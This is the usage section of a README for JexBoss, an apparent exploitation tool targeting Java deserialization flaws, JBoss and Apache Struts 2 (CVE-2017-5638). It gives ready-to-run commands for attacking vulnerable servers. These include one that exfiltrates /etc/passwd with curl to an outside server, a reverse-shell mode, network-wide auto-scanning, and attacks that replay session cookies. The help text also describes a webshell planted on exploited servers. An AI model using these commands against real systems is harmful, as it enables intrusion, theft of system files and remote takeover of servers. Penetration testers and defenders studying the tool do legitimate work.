 When exploiting java deserialization vulnerabilities (Application Deserialization, Servlet Deserialization), the default options are: make a reverse shell connection or send a commando to execute.


Usage examples
--------------

* For Java Deserialization Vulnerabilities in a custom HTTP parameter and to send a custom command to be executed on the exploited server:
```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'
```

* For Java Deserialization Vulnerabilities in a custom HTTP parameter and to make a reverse shell (this will ask for an IP address and port of your remote host):
```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name
```

* For Java Deserialization Vulnerabilities in a Servlet (like Invoker):
```
$ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize
```

* For Apache Struts 2 (CVE-2017-5638)
```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
```

* For Apache Struts 2 (CVE-2017-5638) with cookies for authenticated resources
```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2 --cookies "JSESSIONID=24517D9075136F202DCE20E9C89D424D"
```

* Auto scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
```

* File scan mode:
```
$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
```

* More Options:

```
optional arguments:
  -h, --help            show this help message and exit
  --version             show program's version number and exit
  --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                        PERMISSION!!!)
  --disable-check-updates, -D
                        Disable two updates checks: 1) Check for updates
                        performed by the webshell in exploited server at
                        http://webshell.jexboss.net/jsp_version.txt and 2)
                        check for updates performed by the jexboss client at
                        http://joaomatosf.com/rnp/releases.txt
  -mode {standalone,auto-scan,file-scan}
                        Operation mode (DEFAULT: standalone)
  --app-unserialize, -j
                        Check for java unserialization vulnerabilities in HTTP
                        parameters (eg. javax.faces.ViewState, oldFormData,
                        etc)
  --servlet-unserialize, -l
                        Check for java unserialization vulnerabilities in
                        Servlets (like Invoker interfaces)
  --jboss               Check only for JBOSS vectors.
```